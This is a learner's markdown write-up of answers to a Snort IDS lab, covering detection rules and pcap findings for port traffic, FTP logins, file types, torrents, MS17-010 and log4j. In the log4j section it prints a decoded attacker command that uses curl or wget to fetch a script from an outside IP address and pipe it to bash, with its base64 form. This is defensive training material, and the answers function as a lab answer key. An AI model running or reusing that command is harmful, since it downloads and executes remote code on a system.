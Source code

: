 ## snortchallenges1.md
unfinished 2022/04

### Task2
1. `detect all TCP port 80`
   * alert tcp any 80 <> any any (msg: "TCP Port 80";sid:1000001;rev:1;)
   * alert tcp any any <> any 80 (msg: "TCP Port 80";sid:1000002;rev:1;)
   * -> 328
2. `destination address of packet 63`
   * write alerts file with '-A fast', grep file line numbers 'cat -n' and grep for line '63'
   * -> 145.254.160.237
3. `ACK number of packet 64?`
   * work around from above no longer works as we more info using '-A full'
   * ACK numbers tend to get reused, so I just tried a few
   * -> 0x38AFFFF3
4. `SEQ number of packet 62?`
   * -> 0x38AFFFF3
5. `TTL of packet 65`
   * -> 128
6. `soure IP of packet 65`
   * -> 145.254.160.237
7. `soure port of packet 65`
   * -> 3372

### Task3
1. `detect all TCP port 21`
   * alert tcp any 21 <> any any (msg: "TCP Port 21";sid:1000001;rev:1;)
   * alert tcp any any <> any 21 (msg: "TCP Port 21";sid:1000002;rev:1;)
   * -> 614
2. `ftp service name`
   * didnt find a nice filter, so 'sudo snort -X -v -r ftp-png-gif.pcap > fulldump'
   * cat fulldump \| grep 220
   * -> microsoft ftp service
3. `number of failed ftp logins`
   * alert tcp any any <> any any (msg: "Failed login FTP"; content:"530 "; sid:1000004;rev:1;)
   * -> 41
4. `number of successful ftp logins`
   * alert tcp any any <> any any (msg: "Login FTP"; content:"230 User"; sid:1000005;rev:1;)
   * -> 1
5. `number of failed logins with valid user`
   * alert tcp any any <> any any (msg: "User ok, need pass"; content:"331 Password"; sid:1000006;rev:1;)
   * -> 42
6. `number of failed logins with user Administrator`
   * alert tcp any any <> any any (msg: "User Admin, need pass"; content:"331 Password required for Administrator"; sid:1000007;rev:1;)
   * -> 7

### Task 4
1. `detect PNG files and find embedded software`
   * alert tcp any any <> any any (msg: "PNG File"; content: "PNG"; sid: 100001; rev:1;)
   * run snort with -d -e -v do get full package data: sudo snort -c local.rules -A full -d -e -v -l . -K ASCII -r ftp-png-gif.pcap 
   * -> Adobe ImageReady
2. `detect GIF file and find image format`
   * alert tcp any any <> any any (msg: "GIF File"; content: "GIF"; sid: 100002; rev:1;)
   * again run with -d -e -v, one of the logs will show the magic bytes for GIF
   * -> GIF89a

### Task 5
1. `detect torrent meta file`
   * alert tcp any any <> any any (msg: "torrent File"; content: ".torrent"; sid: 100001; rev:1;)
   * -> 2
2. `name of the torrent application`
   * run rule from 5.1. with -d -e -v, one of the logs will have application/x- header
   * -> bittorent
3. `MIME type of torrent file`
   * run rule from 5.1. with -d -e -v, the data we used in 2 is the MIME type
   * -> application/x-bittorrent
4. `hostname of the torrent metafile`
   * run rule from 5.1. with -d -e -v, look for 'Host:'
   * -> tracker2.torrentbox.com

### Task 6 - fix issues with local-X.rules files
1. missing space between last 'any' and '('
   * -> 16
2. 'port value missing in rule', must be 'icmp any any' instead of 'icmp any'
   * -> 68
3. double sid
   * -> 87
4. missing ';' after msg and double sid
   * -> 90
5. rule direction '<-' not allowed, missing ';' after msg and 'sid;' instead of 'sid:'
   * -> 155
6. missing 'nocase;' after content
   * -> 2
7. rule is looking for '.html', but is missing a message block
   * -> msg

### Task 7
1. `number of detected packets with given ruleset`
   * -> just run sudo snort -c local.rules -r ms-17-010.pcap
   * -> 25154
2. `number of packets with \IPC$`
   * alert tcp any any -> any any (msg: "IPC Detected!"; content: "\\IPC$";sid: 20244225; rev:3;)
   * -> 12
3. `request path`
   * sudo snort -c local-1.rules -A full -dev -l . -K ASCII -r ms-17-010.pcap
   * cat * \| grep \\\\ -A 2
   * -> \\192.168.116.138\IPC$
4. `CVSS v2 score of MS17-010 `
   * https://nvd.nist.gov/vuln/detail/cve-2017-0144
   * -> 9.3

### Task 8
1. `number of detected packets with given ruleset`
   * just run sudo snort -c local.rules -r log4j.pcap
   * -> 26
2. `number of rules triggered`
   * all used sids are 8 digits, thus we can just cat, grep, sort
   * cat alert | egrep -o '\\[1\\:[0-9]{8}\\:1\\]' | sort | uniq
   * -> 4
3. `first 6 digits of triggered rules`
   * use command from 8.2.
   * -> 210037
4. `write rule to filter payload between 770 and 855 bytes`
   * alert tcp any any -> any any (msg:"Size 770-855b"; dsize: 770<>855;sid:1000001; rev:1;)
   * -> 41
5. `encoding algorithm used`
   * if you cat all ASCII logs you will find utf-8 which is wrong, but also /Basic/Command/Base64/KGN1cmwgLX... which looks base64
   * it also makes sense in the context of log4j. As in which encoding was used to hide the payload when exploiting log4j
   * -> base64
6. `IP ID of the corresponding packet`
   * on the package you found in 8.5 scroll up and look for 'ID=' in the TCP header
7. `attackers command`
   * copy the base64 string, remove the hex representation if needed and convert using your favorite tool (e.g. cyberchef)
   * KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=
   *-> (curl -s 45.155.205.233:5874/162.0.228.253:80\|\|wget -q -O- 45.155.205.233:5874/162.0.228.253:80)\|bash
8. `CVSS v2 score of log4j`
   * https://nvd.nist.gov/vuln/detail/CVE-2021-44228
   * -> 9.3

